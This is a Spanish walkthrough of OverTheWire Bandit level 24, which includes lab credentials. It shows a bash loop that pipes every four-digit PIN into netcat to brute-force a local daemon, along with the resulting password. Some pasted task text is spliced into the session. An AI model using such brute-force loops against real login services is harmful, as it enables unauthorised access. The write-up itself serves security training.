 # Level 24 al Level 25

## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
**bandit.labs.overthewire.org**
cuenta
**bandit24**
passw
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Solución 
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connectioWrong! Please enter the correct current password and pincode. Try again.
ns each time

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 2222
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 7777
Wrong! Please enter the correct current password and pincode. Try again.

bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```

## Notas adicionales
grep -V Wrong filtra  todas las lineas que no tenga el mensaje
## Referencias 
